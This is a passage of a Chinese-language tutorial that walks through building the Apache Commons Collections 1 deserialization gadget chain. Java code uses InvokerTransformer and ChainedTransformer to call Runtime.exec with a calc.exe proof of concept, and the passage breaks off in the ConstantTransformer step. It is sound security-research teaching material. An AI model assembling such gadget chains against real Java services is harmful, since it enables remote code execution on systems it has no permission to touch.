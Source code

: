 验证如下
```java
Object a = Runtime.getRuntime();
Class b = Runtime.class;
System.out.println(a.getClass());
System.out.println(b.getClass());
//结果
//class java.lang.Runtime
//class java.lang.Class
```
基于之前写的代码
```java
InvokerTransformer a = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new String[]{"calc.exe"});

    Object input=Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
```
我们可以知道input为Runtime类的对象，所以cls就是Runtime类，所以cls.getMethod可以找到exec方法，直接调用
首先将a封装成ChainedTransformer格式，但是payload还在外面
```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        chainedTransformer.transform(input);
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_43_Ymz1TsB0.png)

这里其实就是对如下的还原

```java
Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"calc.exe");
```
把payload放入Transformer数组中，需要转化成特定的Transformer格式才行
#### ConstantTransformer
在ConstantTransformer类中它同样继承了Transformer，可以看到它的transform函数是会返回`this.iConstant`，然而`this.iConstant`在构造函数中是等于我们传入的值，也就是说构造函数会写入这个变量，它的transform函数又会返回这个变量
```java
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}
```
所以我们可以把Runtime的实例写入到这个变量中
```java
package com.myproject;
import org.apache.commons.collections.*;
```